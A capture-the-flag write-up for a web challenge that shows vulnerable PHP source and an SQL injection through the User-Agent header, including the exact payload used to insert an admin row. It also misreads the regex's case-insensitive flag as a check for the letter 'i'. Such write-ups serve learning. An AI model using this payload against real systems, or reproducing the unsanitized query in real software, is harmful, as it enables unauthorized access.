


## Analysis
The initial site is just plain html with a link to source code.


We can inspect this source code closer.

```PHP
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>
```

The source code uses `$agent = trim(getenv("HTTP_USER_AGENT"));` to access the `HTTP_USER_AGENT` variable data from the HTTP request. It then checks if the user agent contains `from` or `i` using a regex.

After this, it connects to the database and retrieves the count of IDs.

The part that really interests us is where it looks for matching agents in the database and saves the result into an array.

```PHP
$result = mysqli_query($db, "SELECT id FROM chall8 WHERE agent='" . addslashes($_SERVER['HTTP_USER_AGENT']) . "'");
$ck = mysqli_fetch_array($result);
```
And if the first array element equals "admin", it gives us our flag.

```PHP
if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}
```

At the end it inserts our data into database. This is really important for exploiting.

```PHP
if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
```

## Exploit

To change the `HTTP_USER_AGENT` data used in the database, we can use Burp Suite. Start intercepting, refresh the site, and capture the request.



The SQL query used is this:
```SQL
  "insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')"
```
We want to change it to:

```SQL
"insert into chall8(agent,ip,id) values('admin','0','admin'),('test','{$ip}','guest')"
```

Using this, we are able to save 1 more row into DB.
So our modified User-Agent will look like this:

```
User-Agent: admin','0','admin'),('test
```

Then, refresh the site again, intercept, and change our User-Agent to this:

```
User-Agent: admin
```

This way, the code will look for data where User-Agent equals admin, and that data will have an id with the value admin.



